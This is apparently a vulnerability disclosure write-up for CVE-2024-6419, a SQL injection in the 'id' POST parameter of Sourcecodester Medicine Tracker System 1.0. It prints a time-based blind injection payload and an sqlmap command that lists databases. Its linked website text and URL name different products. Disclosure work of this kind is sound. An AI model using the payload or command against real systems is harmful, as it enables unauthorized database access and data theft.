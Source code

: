 ```yaml
---
title: CVE-2024-6419
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Medicine Tracker System (Master.php)
## CVE-2024-6419
Affected Project: Sourcecodester Medicine Tracker System 1.0

Official Website: [https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

Version: 1.0

Related Code file: /php-mts/classes/Master.php

Injection parameter: POST parameter 'id' is vulnerable

## Demonstration

Below is /php-mts/app/?page=medicines/manage_medicine:

![image](https://github.com/jadu101/CVE/assets/76433661/d1cb5f99-123f-400e-b46d-b22e842354b3)

Let's intercept the the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/f99c9759-5e52-4b81-8413-f8904ff9e1bd)

After saving the request as master.txt, we will run sqlmap towards it:

![image](https://github.com/jadu101/CVE/assets/76433661/cc549434-f42c-4d68-ae10-8daa877d453a)

POST parameter 'id' is found to be vulnerable. Below is the payload used:

```
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 8594 FROM (SELECT(SLEEP(5)))EJYb) AND 'npqn'='npqn&name=teest&description=test
---
```

![image](https://github.com/jadu101/CVE/assets/76433661/e7dd397c-6568-4b24-b360-682bc2d8a7a1)

`sqlmap -r master.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/58cab1f5-fc42-4a9f-b0e3-c9f4ba03ecaa)

